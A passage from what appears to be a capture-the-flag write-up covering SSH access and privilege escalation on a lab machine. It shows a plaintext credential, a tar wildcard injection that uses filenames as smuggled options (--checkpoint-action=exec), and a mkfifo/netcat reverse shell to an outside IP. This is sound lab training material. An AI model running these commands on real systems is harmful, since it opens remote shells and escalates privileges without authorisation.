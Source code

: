 --> We have the credential SSH jake:@b_ENXkGYUCAv3zJ.



===========SSH LOGIN & PRIVILEGE ESCALATION===============

```bash
jake@the-marketplace:/opt/backups$ sudo -l
Matching Defaults entries for jake on the-marketplace:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jake may run the following commands on the-marketplace:
    (michael) NOPASSWD: /opt/backups/backup.sh
```
--> We are able to run file ./backup.sh with permission user michael but no password.
+ Go to /opt/backups:
	
![alt text](image-24.png)

+ After try run sudo, we guess that we can not priv to root because user "jake" can not run sudo permission in the marketplace.
+ Idea: Base in "sudo -l", we can priv to user "michael" and after that we can find way to priv user "root".
+ After seen bash code in backup.sh, we think about to exploit "Wildcard" to priv user michael.
+ Firstly, we create file for exploitation:

```bash
touch -- "--checkpoint=1"
touch -- "--checkpoint-action=exec=sh shell.sh"
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.101.46 1234 > /tmp/f" > shell.sh
chmod 777 shell.sh
```

+ After run first time ./backup.sh with permission user michael, we knew file backup.tar belong to permission jake so when we run backup.sh then backup.sh will spawn another backup.tar but can not overwrite file .tar because file backup.tar is with permission user jake.
+ So we need to remove file backup.tar with permission user jake and run again. In this time, backup.sh will spawn backup.tar with permission michael.
+ We use netcat to catch the open listner:
